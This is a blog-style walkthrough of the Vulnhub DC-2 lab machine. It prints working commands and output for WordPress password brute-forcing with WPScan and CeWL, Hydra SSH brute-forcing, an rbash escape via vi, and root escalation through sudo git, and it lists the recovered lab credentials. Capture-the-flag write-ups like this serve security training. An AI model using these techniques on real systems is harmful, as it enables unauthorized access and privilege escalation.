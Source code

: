 ```yaml
---
layout: single
title: Vulnhub DC-2 Walkthrough 
date: 2023-10-19
author_profile: true
comments: true
share: true
categories:
  - DC-Series
tags: []
header:
  overlay_image: /assets/images/dc-2/cover.png
  overlay_filter: 0.3  # optional, darkens the image for readability
  caption: "DC-2 Vulnhub Walkthrough"
excerpt: "Step-by-step walkthrough of the DC-2 machine from Vulnhub."
feature_row:
  - image_path: /assets/images/dc-2/cover.png
    alt: "DC-2 Cover"
    title: "DC-2 Walkthrough"
    excerpt: "A practical guide to rooting the DC-1 Vulnhub machine."
    url: "#"
    btn_label: "Read More"
    btn_class: "btn--primary"
toc: true
toc_sticky: true
---
```


This box provided a valuable learning experience. To gain the initial foothold, I created a custom word list using the 'cwel' tools. After generating the word list, I executed WPScan with a password brute-force attack, which resulted in discovering two valid credentials for the web console. However, neither of these accounts had admin privileges, so we couldn't obtain a shell from there.

Next, we attempted SSH login, and Tom successfully logged into the machine. The default shell for the 'tom' user was 'rbash,' but we managed to escape from it using the 'vi' editor. This allowed us to access 'flag3.txt,' which contained a clue for switching to the 'jerry' user. We used the passwords obtained from WordPress for 'jerry,' and with 'jerry,' we ran 'git' as root. We successfully abused this to escalate privileges and gain root access.

# Information Gathering

First, I want to start with Nmap to identify the open ports and their associated services. If possible, Nmap will also provide information about the service versions and the operating system. This is a good starting point when working with any assets.


```bash
ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) ; nmap -p$ports -sC -sV -oN nmap/service_scan $IP

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The Nmap results reveal that only two ports are open: port 80 and port 7744, which are hosting the HTTP and SSH servers, respectively. However, the SSH server is listening on an unusual port, as the developer has changed the default one. Unfortunately, I currently don't have any credentials to work with SSH, so I'll focus on the web server for now. 

Nmap indicates that it's redirecting to '[http://dc-2/](http://dc-2/)'. So, as a first step, let's add this entry to our hosts file.

```bash
echo '192.168.197.135 http://dc-2' | sudo tee -a /etc/hosts
```

Now we can access the web server through the url.

# Manual Inspection

![](/assets/images/dc-2/0.png)

It's a WordPress application with a navigation bar containing some links, but there doesn't seem to be any interactive content on the web server. The first idea that came to my mind is to initiate a scan of the application using WPScan. Since there isn't anything to interact with on the web server, I'd like to start by generating a password word list and then run WPScan for potential password brute-forcing in case I discover any valid usernames. To create the word list, I'll make use of the built-in tools available in Kali Linux, specifically the 'cweI' tool.

```bash
Command: cewl -d 3 -w password.txt $URL
Response: CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

![](/assets/images/dc-2/1.png)

Now that we have the word list, we can proceed with running WPScan. Typically, WordPress can reveal usernames if it's not configured securely. One common approach is to first enumerate the users and then construct the word list for the brute force attack. However, to simplify the process, I decided to take a shortcut and performed this step once.

```bash
wpscan --enumerate --passwords password.txt --url $URL

[+] URL: http://dc-2/ [192.168.197.135]
[+] Started: Wed Oct 18 03:58:39 2023

Interesting Finding(s):

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
--- snip ---
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

This time, I was fortunate enough to discover three users, including the admin. Additionally, it identified passwords for two of the users, except for the admin.

![](/assets/images/dc-2/2.png)

I have checked both users account none of them are admin. So there is no way to get shell from there. As we have two pair of valid user credentials and we saw earlier ssh server is open lets try to attempt password re-use attack against SSH.

SSH brute-force

```bash
hydra -L users.txt -P password.txt ssh://dc-2:7744

[7744][ssh] host: dc-2   login: tom   password: parturient
```

The tom user use the same password for web application and the ssh login. 

# Creds

<aside>
💡 jerry:adipiscing
tom:parturient

</aside>

# Initial Foothold

As hydra confirm tom’s password is valid for ssh, we can just login through ssh.

![](/assets/images/dc-2/3.png)

# Escaping rbash

The default shell is set for tom user was rbash. Which is a restricted bash environment. We need to escape this bash environment for better control over the system. I found some technique, as the vi is present so i decide to use the vi technique.

```bash
vi
:set shell=/bin/sh
:shell
/bin/bash
export PATH=/bin/:/usr/bin/:/usr/local/bin:$PATH
```

![](/assets/images/dc-2/4.png)

Now everything is okay i have a regular shell on the system.

# Post Enumeration

After escaping the 'rbash' shell, I simply ran the 'ls' command and discovered 'flag3.txt.' Inside 'flag3.txt,' there was a message indicating that Tom should switch over to the 'jerry' user. I attempted to switch using the password acquired from WordPress, and it succeeded.

![](/assets/images/dc-2/5.png)

After switch over to jerry i check the sudo permission for the jerry and found jerry can run git with sudo without password.

![](/assets/images/dc-2/6.png)

This is a possible way to elevate our privilege as root. I searched google and found GTFObins exploit.

# Privilege Escalation

At this point escalate our privilege is very easy. We just need to run git using sudo and add some extra flags -p help config and that’s it and we are root.

```
sudo git -p help config
!/bin/sh
```

![](/assets/images/dc-2/root.png)

#h@ppyh@cking